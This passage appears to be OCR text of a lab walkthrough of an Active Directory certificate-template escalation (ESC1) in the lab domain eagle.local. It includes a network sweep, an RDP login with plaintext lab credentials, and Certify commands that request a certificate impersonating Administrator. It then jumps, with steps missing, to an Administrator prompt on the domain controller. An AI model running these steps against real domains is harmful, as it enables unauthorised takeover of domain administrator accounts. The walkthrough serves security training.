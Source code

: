    ```bash
    # Scan for Windows machines
    nmap -sn 172.16.18.0/24

    # RDP to WS001
    xfreerdp /v:<WS001_IP> /u:bob /p:Slavi123 /cert-ignore
    ```

#### Step 2: Enumerate PKI Infrastructure

On WS001, use Certify to scan for vulnerable certificate templates:

```powershell
PS C:\Users\bob\Downloads> .\Certify.exe find /vulnerable
```

**Expected Output:**

```
[!] Vulnerable Certificates Templates :
    CA Name                     : PKI.eagle.local\eagle-PKI-CA
    Template Name               : UserCert
    Schema Version              : 4
    Validity Period             : 10 years
    msPKI-Certificates-Name-Flag: ENROLLEE_SUPPLIES_SUBJECT
    pkiextendedkeyusage         : Client Authentication, Smart Card Log-on
    Enrollment Rights           : EAGLE\Domain Users
```

#### Step 3: Request Malicious Certificate

Request a certificate for the Administrator user:

```powershell
PS C:\Users\bob\Downloads> .\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator
```

**Key Points:**

* Current user context: EAGLE\bob
* Template: UserCert
* AltName: Administrator (this allows impersonation)

#### Step 4: Convert Certificate Format

The certificate is generated in PEM format and needs conversion to PFX:

1.  Clean up PEM formatting:

    ```bash
    sed -i 's/\s\s\+/\n/g' cert.pem
    ```
2.  Convert to PFX format:


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami  